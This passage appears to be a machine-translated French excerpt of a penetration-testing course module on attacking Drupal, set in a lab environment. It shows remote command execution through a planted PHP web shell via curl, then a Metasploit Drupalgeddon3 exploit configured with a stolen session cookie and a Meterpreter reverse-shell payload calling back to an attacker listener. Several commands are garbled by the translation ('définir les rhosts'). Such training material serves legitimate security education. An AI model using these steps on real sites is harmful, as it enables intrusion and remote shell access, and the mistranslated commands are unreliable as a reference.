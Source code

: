 Enfin, nous pouvons confirmer l'exécution du code à distance à l'aide de `cURL`.

```
dsgsec@htb[/htb]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

* * * * *

Drupalgeddon3
--------------

[Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3) est une vulnérabilité d'exécution de code à distance authentifiée qui affecte [plusieurs versions](https://www.drupal.org/sa-core-2018-004) de Drupal cœur. Il nécessite qu'un utilisateur ait la possibilité de supprimer un nœud. Nous pouvons exploiter cela en utilisant Metasploit, mais nous devons d'abord nous connecter et obtenir un cookie de session valide.

![image](https://academy.hackthebox.com/storage/modules/113/burp.png)

Une fois que nous avons le cookie de session, nous pouvons configurer le module exploit comme suit.

```
exploit msf6 (multi/http/drupal_drupageddon3)> définir les rhosts 10.129.42.195
exploit msf6 (multi/http/drupal_drupageddon3)> définir VHOST drupal-acc.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
exploit msf6 (multi/http/drupal_drupageddon3) > définir DRUPAL_NODE 1
exploit msf6 (multi/http/drupal_drupageddon3)> définir LHOST 10.10.14.15
exploit msf6 (multi/http/drupal_drupageddon3) > afficher les options

Options du module (exploit/multi/http/drupal_drupageddon3) :

    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    DRUPAL_NODE 1 oui Numéro de nœud existant (page, article, sujet de forum ou message)
    DRUPAL_SESSION SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y oui Session de cookie authentifiée
    Proxies non Une chaîne de proxy au format type:host:port[,type:host:port][...]
    RHOSTS 10.129.42.195 oui Le ou les hôtes cibles, l'identifiant CIDR de la plage ou le fichier d'hôtes avec la syntaxe 'file:<path>'
    RPORT 80 oui Le port cible (TCP)
    SSL false non Négocier SSL/TLS pour les connexions sortantes
    TARGETURI / oui L'URI cible de l'installation Drupal
    VHOST drupal-acc.inlanefreight.local pas de service HTTPr hôte virtuel

Options de charge utile (php/meterpreter/reverse_tcp) :

    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    LHOST 10.10.14.15 oui L'adresse d'écoute (une interface peut être spécifiée)
    LPORT 4444 oui Le port d'écoute

Cible d'exploitation :

    Nom d'identification
    -- ----
    0 Formulaire d'inscription de l'utilisateur avec exec

```
